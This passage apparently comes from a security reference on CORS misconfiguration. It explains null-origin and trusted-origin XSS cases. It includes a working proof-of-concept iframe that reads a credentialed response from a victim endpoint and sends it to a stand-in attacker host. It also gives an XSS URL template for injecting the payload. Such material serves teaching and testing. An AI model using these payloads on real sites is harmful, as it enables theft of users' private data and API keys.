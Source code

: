 ### Vulnerable Example: Null Origin

#### Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### Vulnerable Example: XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### Vulnerable Example: Wildcard Origin `*` without Credentials
